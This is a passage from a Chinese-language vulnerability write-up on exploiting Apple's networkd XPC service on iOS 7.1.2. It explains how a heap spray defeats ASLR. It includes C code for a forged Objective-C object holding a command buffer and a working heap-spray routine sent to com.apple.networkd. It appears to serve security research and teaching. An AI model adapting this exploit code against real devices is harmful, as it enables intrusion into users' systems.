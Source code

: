 ```
        uint32_t cache_bucket_mask;
    } fake_objc_class;
    struct fake_cache_bucket_t {
        void* cached_sel;
        void* cached_function;
    } fake_cache_bucket;
    char command[1024];
};

```

0x04 堆喷(Heap Spray)
===================

* * *

虽然我们可以利用一个伪造的Objective-C对象来控制networkd。但是我们需要将这个对象保存在networkd的内存空间中才行，并且因为ASLR（地址随机化）的原因，我们就算能把伪造的对象传输过去，也很难计算出这个对象在内存中的具体位置。那么应该怎么做呢？方法就是堆喷(Heap Spray)。虽然ASLR意味着每次启动服务，program image，library，堆和栈等都是随机。但实际上这个随机并不是完全的随机，只是在某个地址范围内的随机罢了。因此我们可以利用堆喷在内存中喷出一部分空间(尽可能的大，为了能覆盖到随机地址的范围)，然后在里面填充n个fake Object就可以了。

![p7](http://drops.javaweb.org/uploads/images/5b1d1253eaf7430f58891002ff82786568965f94.jpg)

我进行漏洞测试的环境是，iPhone4s (arm 32位) 7.1.2，我们选择了0x1fec000这个地址，因为经过多次堆喷测试，这个地址可以达到将近100%的喷中率。堆喷的代码如下：

```
void* heap_spray_target_addr = (void*)0x1fec000;

struct heap_spray* hs = mmap(heap_spray_target_addr, 0x1000, 3, MAP_ANON|MAP_PRIVATE|MAP_FIXED, 0, 0);
memset(hs, 0x00, 0x1000);

size_t heap_spray_pages = 0x2000;
size_t heap_spray_bytes = heap_spray_pages * 0x1000;
char* heap_spray_copies = malloc(heap_spray_bytes);

for (int i = 0; i < heap_spray_pages; i++){
    memcpy(heap_spray_copies+(i*0x1000), hs, 0x1000);
}

xpc_connection_t client = xpc_connection_create_mach_service("com.apple.networkd", NULL, XPC_CONNECTION_MACH_SERVICE_PRIVILEGED);

xpc_connection_set_event_handler(client, ^void(xpc_object_t response) {
    xpc_type_t t = xpc_get_type(response);
    if (t == XPC_TYPE_ERROR){
        printf("err: %s\n", xpc_dictionary_get_string(response, XPC_ERROR_KEY_DESCRIPTION));
    }
    printf("received an event\n");
    });


xpc_connection_resume(client);

xpc_object_t dict = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_data(dict, "heap_spray", heap_spray_copies, heap_spray_bytes);
xpc_connection_send_message(client, dict);

```
